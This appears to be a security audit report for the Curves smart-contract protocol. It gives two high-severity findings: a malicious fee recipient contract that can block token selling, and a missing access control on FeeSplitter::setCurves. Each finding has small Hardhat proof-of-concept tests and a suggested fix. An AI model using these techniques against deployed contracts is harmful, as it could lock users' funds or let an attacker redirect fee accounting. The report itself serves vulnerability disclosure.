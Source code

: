 # Curves report by Timenov

## Summary

|               | Issue                                | Instances |
| ------------- | :----------------------------------- | :-------: |
| [H-01](#h-01) | Subject can block token selling. |     1     |
| [H-02](#h-02) | No access control in FeeSplitter::setCurves. |     1     |

### [H-01]<a name="h-01"></a> Subject can block token selling.

#### Impact

The way that the `sell` mechanism works is the following:

- User calls `sellCurvesToken()`
- Transferring the fees through `_transferFees()`

The problem lies in `_transferFees()`. In case of selling, the protocol:

1. sends eth to the `msg.sender`
2. sends `subjectFee` to the subject
3. sends `referralFee` to the referral(if any)
4. calls `onBalanceChange` and `addFees` functions of `feeRedistributor`.

A malicious subject or referral can take benefit of that implementation. He can either block all users of selling or he can allow only himself to sell his tokens. This can be achieved if the `subject` or `referral` himself is a smart contract with no `receive()` or the `receive()` only allows the malicious user to sell.

```solidity
            (bool success2,) = curvesTokenSubject.call{value: subjectFee}("");
            if (!success2) revert CannotSendFunds();
```

```solidity
            (bool success3,) = referralDefined
                ? referralFeeDestination[curvesTokenSubject].call{value: referralFee}("")
                : (true, bytes(""));
            if (!success3) revert CannotSendFunds();
```

#### Proof of Concept
We will take a look only at the `referralFeeDestination` attack.

1. Create smart contract with no `receive()`

```solidity
pragma solidity 0.8.7;

contract BadReceiver {}
```

2. Modify one of the test cases in `friend-tech.ts`

```diff
it("Should be able to buy and sell tokens by a friend", async () => {
  await testContract.buyCurvesToken(owner.address, 1);
  const initialPrice = await testContract.getBuyPrice(owner.address, 2);
  await testContract.connect(friend).buyCurvesToken(owner.address, 2, { value: initialPrice });

  const friendBalance = await testContract.curvesTokenBalance(owner.address, friend.address);
  expect(friendBalance).to.equal(2);

  @audit add these lines
+      const BAD_RECEIVER_FACTORY = await ethers.getContractFactory("BadReceiver", owner);
+      const badReceiver = await BAD_RECEIVER_FACTORY.deploy();
+      await testContract.connect(owner).setReferralFeeDestination(owner.address, badReceiver.address);
+      const newReferralAddress = await testContract.referralFeeDestination(owner.address);
+      expect(newReferralAddress).to.equal(badReceiver.address);

  @audit this will fail
  const tx = await testContract.connect(friend).sellCurvesToken(owner.address, 1);
  const rec = await tx.wait();
  //@ts-ignore
  const trade = rec.events[0];
  const ICurves = Curves__factory.createInterface();
  //@ts-ignore
  const parsedEvent = ICurves.parseLog(trade) as TradeEvent;

  const friendBalance2 = await testContract.curvesTokenBalance(owner.address, friend.address);
  expect(friendBalance2).to.equal(1);
  expect(parsedEvent.args.ethAmount).to.equal(250000000000000);
  expect(parsedEvent.args.protocolEthAmount).to.equal(0);
  expect(parsedEvent.args.subjectEthAmount).to.equal(0);
});
```

Full file can be seen in this [Gist](https://gist.github.com/Pavel2202/61d1c2db0bb623cddb02d78fb4887dbc)

3. Test fails with correct error

```solidity
Error: VM Exception while processing transaction: reverted with custom error 'CannotSendFunds()'
```

#### Lines of code

https://github.com/code-423n4/2024-01-curves/blob/516aedb7b9a8d341d0d2666c23780d2bd8a9a600/contracts/Curves.sol#L218-L261

#### Tools Used

Manual Review, Hardhat

#### Recommended Mitigation Steps

I know this is a fork of `friend.tech` and the selling functionality there is implemented the same. The problem is that, here there are 3 more calls(`referral.call()`, `feeRedistributor.onBalanceChange()` and `feeRedistributor.addFees()`). This opens up the opportunity for more points of failure. Consider implementing a `pull over push` strategy for the fess.

### [H-02]<a name="h-02"></a> No access control in FeeSplitter::setCurves.

#### Impact

`FeeSplitter` is used to manage the distribution of fees. The storage variable `curves` is a reference to the Curves smart contract. It is used to retrieve the user's balance and get the total supply. If we take a look at the function `setCurves`, we can see that there we set the `curves` variable.

```solidity
  function setCurves(Curves curves_) public {
      curves = curves_;
  }
```

The problem here is that anyone can call this function as there is no access control. This function alone can cause huge problems across the whole protocol.

#### Proof of Concept
Added the following test case to `fee-token-holders.ts`:

```js
  it("Anyone can change curves address", async () => {
    let curvesAddress = await testContract.curves();
    expect(curvesAddress).to.equal(mockCurves.address);

    await testContract.connect(friend).setCurves(friend.address);
    curvesAddress = await testContract.curves();
    expect(curvesAddress).to.equal(friend.address)
  });
```

Test results:

```js
Fee token holders test
  Fee Splitter
    ✔ Anyone can change curves address
```

Here is a [Gist](https://gist.github.com/Pavel2202/407eda86db1cce857aab5e5c65eccf02) with the updated test file.

#### Lines of code

https://github.com/code-423n4/2024-01-curves/blob/516aedb7b9a8d341d0d2666c23780d2bd8a9a600/contracts/FeeSplitter.sol#L35-L37

#### Tools Used

Manual Review, Hardhat

#### Recommended Mitigation Steps

I think that the `onlyOwner` modifier would suit this function the most(after [this](https://github.com/code-423n4/2024-01-curves/blob/main/bot-report.md#h-01) is fixed of course). So after the changes, the `setCurves` function should look like this:

```solidity
  function setCurves(Curves curves_) public onlyOwner {
      curves = curves_;
  }
```